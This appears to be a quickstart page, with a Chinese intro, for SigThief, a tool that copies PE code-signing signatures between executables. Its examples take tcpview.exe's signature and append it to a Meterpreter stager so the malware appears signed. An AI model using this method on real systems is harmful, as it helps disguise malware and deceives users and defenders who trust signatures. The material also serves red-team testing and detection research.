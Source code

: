 
## Quickstart

[SigThief](https://github.com/secretsquirrel/SigThief) 是一个PE签名工具，能够把其他PE的签名复制到目标PE上.

`Usage`
```
Usage: sigthief.py [options]

Options:
  -h, --help            show this help message and exit
  -i FILE, --file=FILE  input file
  -r, --rip             rip signature off inputfile
  -a, --add             add signautre to targetfile
  -o OUTPUTFILE, --output=OUTPUTFILE
                        output file
  -s SIGFILE, --sig=SIGFILE
                        binary signature from disk
  -t TARGETFILE, --target=TARGETFILE
                        file to append signature too
  -c, --checksig        file to check if signed; does not verify signature
  -T, --truncate        truncate signature (i.e. remove sig)
```

`Take a Signature from a binary and add it to another binary`
```
$ ./sigthief.py -i tcpview.exe -t x86_meterpreter_stager.exe -o /tmp/msftesting_tcpview.exe 
Output file: /tmp/msftesting_tcpview.exe
Signature appended. 
FIN.
```

`Save Signature to disk for use later`
```
$ ./sigthief.py -i tcpview.exe -r                                                        
Ripping signature to file!
Output file: tcpview.exe_sig
Signature ripped. 
FIN.
```

`Use the ripped signature`
```
$ ./sigthief.py -s tcpview.exe_sig -t x86_meterpreter_stager.exe                               
Output file: x86_meterpreter_stager.exe_signed
Signature appended. 
FIN.
```

`Check if there is a signature (does not check validity)`
```
$ ./sigthief.py -i tcpview.exe -c
Inputfile is signed!
```
## References
- [github SigThief](https://github.com/secretsquirrel/SigThief)
 